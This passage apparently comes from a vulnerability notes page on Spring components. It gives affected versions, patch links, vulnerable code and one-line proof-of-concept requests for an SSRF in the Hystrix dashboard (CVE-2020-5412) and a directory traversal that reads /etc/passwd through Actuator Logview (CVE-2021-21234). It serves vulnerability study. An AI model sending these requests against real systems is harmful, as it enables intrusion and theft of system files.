 #### CVE-2020-5412 SSRF
Affected Version: <  2.2.4 or 2.1.6

Diff: https://github.com/spring-cloud/spring-cloud-netflix/commit/624bbc8b50f7b5b6a1addc62040e4f2587f24f1b

POC: 
```
GET /proxy.stream?origin=www.baidu.com
```
Factor: 
```
org.springframework.cloud.netflix.hystrix.dashboard.HystrixDashboardConfiguration
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String origin = request.getParameter("origin");
    StringBuilder url = new StringBuilder();
    if (!origin.startsWith("http")) {
        url.append("http://");
    }
    url.append(origin);
    String proxyUrl = url.toString();
    try {
        httpget = new HttpGet(proxyUrl);
        HttpClient client = HystrixDashboardConfiguration.ProxyStreamServlet.ProxyConnectionManager.httpClient;
        HttpResponse httpResponse = client.execute(httpget);
    }
}
```

### （7）Spring Boot Actuator Logview
#### CVE-2021-21234 Directory Traversal 
Affected Version: < 0.2.13

POC: 
```
GET /manage/log/view?filename=/etc/passwd&base=../../../../../
```
Factor: 
```
eu.hinsch.spring.boot.actuator.logview.FileSystemFileProvider
public void streamContent(Path folder, String filename, OutputStream stream) throws IOException {
    IOUtils.copy(new FileInputStream(this.getFile(folder, filename)), stream);
}
```
### （8）Spring Framework
#### CVE-2018-1270 RCE
Affected Version: < 5.0.5 or 4.3.15

Diff: https://github.com/spring-projects/spring-framework/commit/e0de9126ed8cf25cf141d3e66420da94e350708a#
